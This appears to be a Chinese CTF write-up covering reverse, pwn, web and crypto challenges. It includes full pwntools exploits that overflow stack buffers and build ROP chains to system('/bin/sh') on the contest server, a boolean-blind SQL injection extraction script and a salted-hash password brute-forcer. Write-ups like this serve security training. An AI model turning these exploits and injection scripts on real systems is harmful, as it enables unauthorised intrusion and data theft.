

| 项目 | 内容 |
|---|---|
| 文件类型 | PE64，Windows Console 程序 |
| 编译器 | Microsoft Visual C/C++ |
| 壳 | 无壳 |

一个普通的 MSVC 编译的 64 位控制台程序，用 IDA64 静态分析

##### 2.3 定位密文和提示

在 IDA 里找到 `start` 函数后 `Shift+F12` 打开字符串窗口
一长串 hex 密文
`7821352D093A1B6C39011A3B2844200C2B024A335231706F5E002D1801174C00021C130E13`
一行提示
`H0w_t0_3ncrypt?`

交叉引用显示这串 hex 密文被 `sub_140001040` 引用
 `H0w_t0_3ncrypt?` 同时被 `sub_140001040` 和 `sub_140001040` 附近的函数引用



进 `sub_140001040`

##### 2.4 校验函数

看 `sub_140001040` 的伪代码

```c
void __fastcall sub_140001040(int a1, __int64 a2)
{
  unsigned __int8 v2;
  unsigned __int64 i;
  char v4[80];

  if ( a1 == 51966 )                      
  {
    if ( a2 && sub_14001C8F0(a2) == 37 )   // 输入长度必须为 37
    {
      for ( i = 0; i < 0x25; ++i )          // 循环 37 次
      {
        // 关键：a2[i] 与 key 按位异或
        v2 = aH0wT03ncrypt[14 - i % 0xF] ^ *(_BYTE *)(i + a2);
        v4[2*i]     = a0123456789abcd[v2 >> 4];   // 转 hex 大写
        v4[2*i + 1] = a0123456789abcd[v2 & 0xF];
      }
      v4[74] = 0;
      // 加密结果与硬编码 hex 密文比较
      if ( sub_14001C870(v4, "7821352D...E13") )
        sub_140001290(",)45<", 5);         // 校验失败
      else
        sub_140001290("\"4.[,25", 7);      // 校验成功
    }
  }
}
```

反汇编里能看到主流程 `call rax ; sub_140001040` 的调用点被一个 `jnz` 跳过，正常不会调用这个函数


 `H0w_t0_3ncrypt?` 这串提示在 `.rdata` 里被这个函数引用




```c
v2 = aH0wT03ncrypt[14 - i % 0xF] ^ a2[i];
```

`aH0wT03ncrypt` 就是字符串 `"H0w_t0_3ncrypt?"`，长度正好 15
`i % 0xF`：对 15 取模，让 key 循环使用；
`14 - i % 0xF`：从末尾往前取字符，等价于把 `"H0w_t0_3ncrypt?"` 反转成 `"?tpyrcn3_0t_woH"` 后再循环使用
然后与第 `i` 个输入字节 `a2[i]` 做异或，再把结果转成 hex，与硬编码密文比较

##### 2.5 解密 flag

加密关系是：

```
enc_hex[i] = ( flag[i] ^ reversed_key[i % 15] ) 的两位 hex
```

XOR反过来

```
flag[i] = enc[i] ^ reversed_key[i % 15]
```

```
enc = bytes.fromhex("7821352D093A1B6C39011A3B2844200C2B024A335231706F5E002D1801174C00021C130E13")
key = "H0w_t0_3ncrypt?"[::-1]   # [::-1]从后往前取，长度 15
```

 Python 脚本：

```python
enc = bytes.fromhex("7821352D093A1B6C39011A3B2844200C2B024A335231706F5E002D1801174C00021C130E13")
key = b"H0w_t0_3ncrypt?"[::-1]         
 # 伪代码里下标是 14 - i % 15，等价于反转后循环取
flag = bytes([enc[i] ^ key[i % 15] for i in range(37)])
print(flag.decode())
```

输出

```bash
GUET{Yu_f1nd_th3_r3A1_C0ntro1_stream}
```
提交正确

#### 三、最终 Flag

```
GUET{Yu_f1nd_th3_r3A1_C0ntro1_stream}
```

脚本


## Pwn

### 赛尔号出发

#### 一、思路

```
pwn入门题
考察linux的基本使用
netcat 连上端口
完成新人任务得到权限后找flag
cat flag
```

#### 二、分析

##### 2.1 
题目只给了一个容器，直接连接看反应
```
nc ctf.guetsec.cn 30007
```
一路选技能，打最后一个boss
拿到shell

##### 2.2 找flag


#### 三、最终 Flag

```
flag{f29e159b-2197-4a33-b21c-e3d638e07483}
uuid每个端口不一样
```

### 做题之前必看

#### 一、思路

```
x86-64 栈溢出
No Canary + No PIE + NX
read(0, buf, 256) 但 buf 只有 64 字节，溢出覆盖返回地址
偏移 = 64(buf) + 8(旧 rbp) = 72
后门函数 win() 内部直接 system("/bin/sh")
跳 win 会因为 rsp 16 字节不对齐导致 system 静默崩溃
栈上插一条 ret gadget 做跳板，对齐后再跳 win
```

保护：No Canary, No PIE, NX enabled, Partial RELRO

#### 二、分析

##### 2.1 查看文件类型和保护机制

```bash
file pwn
checksec pwn
```


- No Canary 可以覆盖返回地址
- No PIE    函数地址固定，可以硬编码
- NX        不能直接放 shellcode，需要 ret2text

##### 2.2 IDA 打开找后门函数

把 `pwn` 拖进 IDA64，等待分析完成

左侧 Functions 窗口直接列出所有函数，能看到 `win`，地址 `0x4011b6`

也可以 `Shift+F12` 打开字符串窗口，搜 `/bin/sh`，双击跳过去，再通过交叉引用（`X`）找到调用它的函数，就是 `win`


##### 2.3  main

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[64]; // [rsp+0h] [rbp-40h] BYREF

  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  setbuf(stderr, 0LL);
  puts("[*] Please input payload:");
  printf("> ");
  read(0, buf, 0x100uLL);
  puts("[*] Payload received.");
  return 0;
}
```

`char buf[64]`
`read(0, buf, 0x100)` 一次读 256 字节，明显栈溢出


##### 2.4 计算偏移

从 buf 开头到返回地址的距离：

```
偏移 = 64 (buf) + 8 (旧 rbp) = 72 字节
```

##### 2.5 Win

双击 `win`，按 `F5`：

```c
int win()
{
  puts("[+] Congratulations! You are the best!");
  puts("[+] system(\"/bin/sh\")");
  return system("/bin/sh");
}
```

`win` 调用了 `system("/bin/sh")`
跳过去就能拿 shell，地址 `0x4011b6`

##### 2.6 栈对齐

x86-64 Linux 调用约定规定
调用函数时 rsp 必须是 16 字节对齐
从 main 的 ret 跳转到 win 时，rsp 差了 8 字节
找一个单独的 `ret` 指令作为跳板
先执行一次 ret 把 rsp 调整 8 字节，再跳转到 win

ret_gadget = 0x40101a

##### 2.7 构造 Exp

Payload  `填充 72 字节` + `ret gadget (8B)` + `win 地址 (8B)`


```python
from pwn import *

# 远程连接
io = remote("ctf.guetsec.cn", 30000) #这里填端口号

# 地址
win_addr   = 0x4011b6   # win函数
ret_gadget = 0x40101a   # 栈对齐
offset     = 72         # 偏移 = 64(buf) + 8(旧的rbp)

# 构造 payload
payload = b'A' * offset + p64(ret_gadget) + p64(win_addr)

# 发送 payload
io.recvuntil(b"payload:")  # 当程序输入payload: 之后再发送payload
io.sendline(payload)

io.interactive()  # 进入交互，把终端交给shell
```

```bash
python3 solve.py
```

进入交互

```bash
$ ls -a
flag XXX

$ cat flag
GUET{Today_Hope_You_Can_Learn_Kownledge_{XXXXXXXX-XXXX-XXXX-XXXX-XXXXXXXXXXXX}}
```

#### 三、最终 Flag

```
GUET{Today_Hope_You_Can_Learn_Kownledge_{XXXXXXXX-XXXX-XXXX-XXXX-XXXXXXXXXXXX}}
```


### 灯神的愿望

#### 一、思路

```
64 位 ELF，无 PIE 无 Canary NX 关闭
反汇编发现 magic() 函数直接 system(rdi)
.data 段有 "/bin/sh" 字符串
菜单选 1 后，第二次 scanf 读一个有符号 int 作为 read 的大小
输入 -1，有符号比较 -1<=1 通过检查，但 mov edx 零扩展后 size=0xffffffff
超大 read 造成栈溢出
ret2system("/bin/sh")
```

#### 二、分析

##### 2.1 查保护

```bash
checksec genie
```


没有 Canary、没有 PIE，地址全固定， 考虑 ROP

##### 2.2 找后门函数

有一个 `magic` 函数：


`magic` 直接 `system(rdi)`


看 `.data` 段
有个全局变量 `binsh_str`：

```
.data:0000000000404060 binsh_str       db '/bin/sh',0
```

得到后门和命令字符串
然后控制 `rdi`

##### 2.3 找溢出

main：

```
1. Make more wishes
2. Make a normal wish
3. Exit
```

选 `1` 之后的逻辑


因为正数只能输入 `1` 来给后面的 `nbytes`
决定能read的buf的大小，所以要创造栈溢出的条件

```c
  puts("How many wishes do you want?");
  __isoc99_scanf("%d", &v5);
  if ( (int)v5 > 1 )
  {
    puts("Too many wishes.");
    exit(0);
  }
  LODWORD(nbytes) = v5;
  printf("You can make %u wishes.\n", v5);
  puts("Enter your wish content:");
  read(0, buf, (unsigned int)nbytes);
```


`n` 有符号 int，输入 `-1`
有符号比较 `-1 <= 1` 通过检查
`read` 的第三个参数是 `mov edx, [rbp-4]`，这是零扩展到 64 位
`-1` 的补码是 `0xffffffff`
零扩展后就是 `0x00000000FFFFFFFF` ，buf的上限变成大约4G

负数跳过"<= 1"的检查和 printf `%u` 无符号打印，现在有了栈溢出的条件

##### 2.4 算偏移 ROP

```
高
  rbp+8  返回地址
  rbp    旧 rbp
  ...
  rbp-0x70  read 的buf
低
```

从 `buf` 到返回地址：`0x70 + 8 = 120` 字节

再找一个 `pop rdi; ret` gadget 来设置 `rdi = "/bin/sh"`
在`__libc_csu_init` 尾部：

```
0x401463: pop rdi; ret
```

ROP：

```
120 字节 + 0x401463(pop rdi; ret) + 0x404060("/bin/sh") + ret 栈对齐 + system@plt
```

##### 2.5 exp 

```python
from pwn import *

io = remote('ctf.guetsec.cn', 30002)

pop_rdi    = 0x401463  # pop rdi; ret
bin_sh     = 0x404060  # `.data` 段里 `/bin/sh` 字符串的地址
ret_gadget = 0x40123c
system_plt = 0x4010c0

offset = 120

payload = b'A' * offset
payload += p64(pop_rdi)   # pop rdi; ret
payload += p64(bin_sh)    # pop取这个
payload += p64(ret_gadget)  #ret 取这个
payload += p64(system_plt)  
# Linux 下函数第一个参数永远通过 rdi 传，这里rdi的值是'/bin/sh'


io.sendlineafter(b'What do you want?', b'1')
io.sendlineafter(b'How many wishes do you want?', b'-1')
io.recvuntil(b'wish content:')
io.send(payload)

io.interactive()
```

#### 三、最终 Flag
```
flag{uuid}
```


## 附件：脚本源码

### Web - SQL 布尔盲注自动化脚本

```python
import requests
import time

#配置
BASE_URL = "http://ctf.guetsec.cn:30032/?action=api&order="
TARGET_SUBQUERY = "(SELECT hex(group_concat(name)) FROM files)"  # 要提取的数据
MAX_LEN = 1024          # 最大提取长度（hex 字符数）
DELAY = 0.1            # 间隔 0.1s


"""
    发送一个注入表达式，判断条件是否为真
    返回 True  = 条件为真  排序反转,Apple第一
    返回 False = 条件为假  排序正常,Zebra第一
    返回 None  = 请求出错
"""

def test_condition(expr: str) -> bool | None:
    url = BASE_URL + requests.utils.quote(expr, safe='')
    try:
        resp = requests.get(url, timeout=10)
        data = resp.json()

        if "error" in data:
            return None

        # 第一条记录 id=2,Apple,排序反转,条件为真
        if data["data"][0]["id"] == 2:
            return True
        else:
            return False

    except Exception as e:
        print(f"\n[!] 请求出错: {e}")
        return None


def extract_hex_char(pos: int) -> str | None:
    """
    提取目标 hex 字符串的第 pos 个字符（从 1 开始）。
    遍历 0-9, A-F,找到匹配的那个。
    返回字符（'0'~'F'），如果该位置无字符则返回 None。
    """
    hex_chars = "0123456789ABCDEF"

    for c in hex_chars:
        ascii_val = ord(c)  # 字符的 ASCII 码

        # 构造完整的注入表达式
        # min(instr(name,char(90)), instr(substr(目标hex, pos, 1), char(猜的ASCII)))
        expr = (
            f"min(instr(name,char(90)),"
            f"instr(substr({TARGET_SUBQUERY},{pos},1),char({ascii_val})))"
        )

        result = test_condition(expr)
        time.sleep(DELAY)

        if result is True:
            return c
        
    return None


def hex_to_string(hex_str: str) -> str:
    #把 hex 字符串转成普通字符串
    result = ""
    for i in range(0, len(hex_str), 2):
        byte = int(hex_str[i:i+2], 16)
        result += chr(byte)
    return result


def main():
    print("=" * 60)
    print("布尔盲注自动化")
    print("=" * 60)
    print(f"目标子查询: {TARGET_SUBQUERY}")
    print()
    print("开始提取...")
    print()

    hex_result = ""

    for pos in range(1, MAX_LEN + 1):
        c = extract_hex_char(pos)

        if c is None:
            print(f"\n\n共 {pos - 1} 个 hex 字符")
            break

        hex_result += c
        print(c, end="", flush=True)  # 实时打印

    print()
    print("-" * 30)
    print(f"Hex 结果: {hex_result}")
    print("-" * 30)

    if len(hex_result) % 2 == 0 and len(hex_result) > 0:
        plain = hex_to_string(hex_result)
        print(f"解码结果: {plain}")
        print()

    else:
        print("hex不是整数")


if __name__ == "__main__":
    main()
```

### Crypto - shadow 口令爆破脚本

```python
import hashlib  # 哈希库

# 已知的盐值，和口令拼接后再做哈希
salt = "35712258"

#暴力计算求哪个 6 位数字口令能算出这个hash
ture_hash = "cd46936c5c396f66b2971b12d427563a3b0d9a671a8ee0e9eb7e809571d3ddb7"

# 枚举所有可能的 6 位数字口令
for i in range(1000000):
    password = str(i).zfill(6)  # zero-fill,在字符串的左边补零到6位

    # salt与password进行拼接转字节串，然后计算 SHA-256，转成十六进制字符串
    hash = hashlib.sha256((salt + password).encode()).hexdigest()

    # 哈希和目标哈希一致，则输出口令
    if hash == ture_hash:
        print(f"口令: {password}")
        break
```

### Crypto - 匆忙的密钥 RSA 分解解密脚本

```python
from math import isqrt
from Crypto.Util.number import inverse, long_to_bytes, isPrime

n = int("128238150108052472971107509871501016687988927864918262138868046480163613798632355139985981976662480300710530454772760612038397547791656528394404617136997918435337816829254365979998999271329107900358983183976875337477886150419905532163253782516831853481674653012279771019498880575085696755934298779035029630941")
e = 65537
c = int("6a8f0814c53fe588ffca775504aa70354b9f2c3f2875247179559cc50f3bddb28f90a90c951c829b01ca3f0398366e2f29920e74332e06f279c1297fbbe32597f2919e40eed1c8ddbe2cc24a058dc96da2b8b845fea8b79401ebe5c9d50cd74264c41552f665ed063bc57267e4b9964f603d8882c63b96c06110b74f90a4dff8", 16)

print(f"n bit length = {n.bit_length()}")
print(f"e = {e}")
print()

# 第一步：把 n 按 64 位字拆开，观察结构

# n 是 1024 位 = 16 个 64 位字
# word[0] 是最高 64 位，word[15] 是最低 64 位
words = []
temp = n
for i in range(16):
    words.append(temp & ((1 << 64) - 1))
    temp >>= 64
words.reverse()  # words[0] = 最高位

print("=== n 的 64 位字结构 ===")
for i, w in enumerate(words):
    marker = " ← 非零" if w != 0 else ""
    print(f"  word[{i:2d}] = {w:016x}{marker}")
print()

# 第二步：从 n 中提取三段

# p = A * 2^448 + B,  q = C * 2^448 + D
# n = p*q = A*C * 2^896 + (A*D + B*C) * 2^448 + B*D
#
# 对应到 n 的字：
#   最高 128 位 = A*C
#   中间部分     = A*D + B*C
#   最低 128 位 = B*D

AC = n >> 896                           # A*C（最高 128 位）
rest = n - AC * (1 << 896)
middle = rest >> 448                    # A*D + B*C
BD = rest & ((1 << 448) - 1)            # B*D（最低 128 位）

print(f"A*C      = {hex(AC)}")
print(f"A*D+B*C  = {hex(middle)}")
print(f"B*D      = {hex(BD)}")
print()

# 第三步：分解 A*C，找所有因数对 (A, C)

# A 和 C 都是 64 位数（p、q 的最高 64 位）
# 先对 AC 做质因数分解，再枚举所有因数，挑两边都是 64 位的
print("=== 分解 A*C ===")
print(f"A*C = {AC}")

# 分解质因数
def factorize(x):
    factors = {}
    d = 2
    while d * d <= x:
        while x % d == 0:
            factors[d] = factors.get(d, 0) + 1
            x //= d
        d += 1 if d == 2 else 2
    if x > 1:
        factors[x] = factors.get(x, 0) + 1
    return factors

factors = factorize(AC)
print(f"质因数分解: {factors}")

# 枚举所有因数
divisors = [1]
for prime, exp in factors.items():
    new_divs = []
    for dv in divisors:
        mul = 1
        for k in range(exp + 1):
            new_divs.append(dv * mul)
            mul *= prime
    divisors = new_divs

# 筛选两边都是 64 位数 [2^63, 2^64) 的因数对
pairs = []
for d in divisors:
    other = AC // d
    if 2**63 <= d < 2**64 and 2**63 <= other < 2**64:
        pairs.append((d, other))

print(f"64 位因数对 ({len(pairs)} 组):")
for a, cc in pairs:
    print(f"  A = {hex(a)}, C = {hex(cc)}")
print()

# 第四步：对每组 (A, C)，列二次方程求 B

# 已知：
#   A*C = AC
#   A*D + B*C = middle
#   B*D = BD
#
# 消去 D：D = (middle - B*C) / A
# 代入 B*D = BD：
#   B * (middle - B*C) / A = BD
#   C*B^2 - middle*B + A*BD = 0
#
# 解二次方程：B = (middle ± sqrt(middle^2 - 4*C*A*BD)) / (2*C)

print("=== 求解 ===")
found = False
for A, C in pairs:
    discriminant = middle * middle - 4 * C * A * BD
    if discriminant < 0:
        continue
    sqrt_d = isqrt(discriminant)
    if sqrt_d * sqrt_d != discriminant:
        continue  # 不是完全平方数，跳过

    for sign in [1, -1]:
        numerator = middle + sign * sqrt_d
        if numerator <= 0:
            continue
        if numerator % (2 * C) != 0:
            continue
        B = numerator // (2 * C)
        if B <= 0 or B >= 2**64:
            continue
        if BD % B != 0:
            continue
        D = BD // B
        if D <= 0 or D >= 2**64:
            continue

        # 验证
        if A * D + B * C != middle:
            continue
        if B * D != BD:
            continue

        print(f"找到解！")
        print(f"  A = {hex(A)}")
        print(f"  B = {hex(B)}")
        print(f"  C = {hex(C)}")
        print(f"  D = {hex(D)}")

        # 还原 p, q
        p = A * (1 << 448) + B
        q = C * (1 << 448) + D

        print(f"\n  p = {hex(p)}")
        print(f"  q = {hex(q)}")
        print(f"  p 是素数: {isPrime(p)}")
        print(f"  q 是素数: {isPrime(q)}")
        print(f"  p*q == n: {p*q == n}")

        # 解密
        phi = (p - 1) * (q - 1)
        d_key = inverse(e, phi)
        m = pow(c, d_key, n)
        flag = long_to_bytes(m)

        print(f"\n  解密明文: {flag}")
        found = True
        break
    if found:
        break

if not found:
    print("未找到解")
```

### Reverse - 开开心心来签个到 异或解密脚本

```python
target = [
    0x61, 0x73, 0x63, 0x72, 0x5D, 0x71, 0x15, 0x4A,
    0x45, 0x4B, 0x43, 0x79, 0x52, 0x16, 0x79, 0x61,
    0x73, 0x63, 0x72, 0x79, 0x4F, 0x52, 0x79, 0x17,
    0x55, 0x79, 0x41, 0x16, 0x16, 0x42, 0x5B
]

flag = ''.join(chr(b ^ 0x26) for b in target)
# join把字符或者字符串连接起来，中间没有分隔


print(flag)
```

### Reverse - EZMAZE flag 解密脚本

```python
def ror7(x):
    x = x & 0xff
    #在8bit的情况下: ROR7(x) = ROL1(x)
    return ((x >> 7) & 1) | ((x << 1) & 0xff)       #这里等价于__ROR1__(v12, 7)

route = b"ddssaassssssddddddd"
v12 = 0x42
v11 = route[0]
idx = 1
while True:
    if idx >= len(route):
        v14 = 0
    else:
        v14 = route[idx]
    v12 = v11 ^ ror7(v12)
    v11 = v14
    if v14 == 0:
        break
    idx += 1

data = [
0x58,0x28,0x47,0xD2,0x84,0x7D,0x70,0x07,0xD1,0x12,0x2F,
0x52,0xAA,0x47,0x58,0xA6,0x3D,0x3E,0x24,0x33,0x32,
0x0B,0x1E,0x13,0x07,0x19,0x20,0x0E,0x18,0x0A,0x08,0x1F,0x17,
0x3B,0x08,0x0D,0x1C,0x00,0x00,0x00
]

flag = b""
for i in range(0x15):
    b = v12 ^ i ^ data[i+16]
    flag += bytes([b])

print("v12 =", hex(v12))
try:
    print(flag.decode())
except:
    print("wrong")
```

### Reverse - EZMAZE 迷宫绘制脚本

```python
map_data = [0x58, 0x28, 0x47, 0xD2, 0x84, 0x7D, 0x70, 0x07, 
            0xD1, 0x12, 0x2F, 0x52, 0xAA, 0x47, 0x58, 0xA6,
            0x3D, 0x3E, 0x24, 0x33, 0x32, 0x0B, 0x1E, 0x13, 
            0x07, 0x19, 0x20, 0x0E, 0x18, 0x0A, 0x08, 0x1F, 
            0x17, 0x3B, 0x08, 0x0D, 0x1C]

def is_wall(x, y):
    idx = x + 11 * y
    byte = map_data[idx >> 3]
    bit = (byte ^ 0xA7) >> (idx & 7) & 1
    return bit == 1

print("MAP,S=起点(1,1), E=终点(8,9), #=墙, .=非墙):")
print("   " + "".join([f"{x:2d}" for x in range(11)]))
for y in range(11):
    row = f"{y:2d} "        #打印行号,后面追加地图数据
    for x in range(11):
        if (x, y) == (1, 1):
            row += " S"
        elif (x, y) == (8, 9):
            row += " E"
        elif is_wall(x, y):
            row += " #"
        else:
            row += " ."
    print(row)
```

### Reverse - py交易 置换+异或还原脚本

```python
#来自kongbeiqie.py
flag = ''
encode = 'YVYh]\x07@h\x0ehRwJVD\x07]s\x03D__ELzhY\x06_TP'
table = (19, 14, 10, 24, 27, 6, 5, 12, 11, 15, 9, 26, 30, 22, 16, 28,
         1, 13, 18, 2, 17, 21, 29, 4, 25, 7, 8, 23, 0, 3, 20)
XOR_KEY = 55

def enc(input):
    tmp = ''
    for i in range(len(input)):
        tmp = tmp + chr(ord(input[table[i]]) ^ XOR_KEY)
    return tmp

# enc(flag) == encode  => 
# flag[table[i]] = ord(encode[i]) ^ XOR_KEY
ans = [''] * 31
for i in range(31):
    ans[table[i]] = chr(ord(encode[i]) ^ XOR_KEY)
flag = ''.join(ans)
print(flag)
print(enc(flag) == encode)    # 校验结果是否正确
```

### Reverse - guessTheNumber 异或解密脚本

```python
enc = bytes.fromhex("7821352D093A1B6C39011A3B2844200C2B024A335231706F5E002D1801174C00021C130E13")
key = b"H0w_t0_3ncrypt?"[::-1]
flag = bytes([enc[i] ^ key[i % 15] for i in range(37)])
print(flag.decode())
```
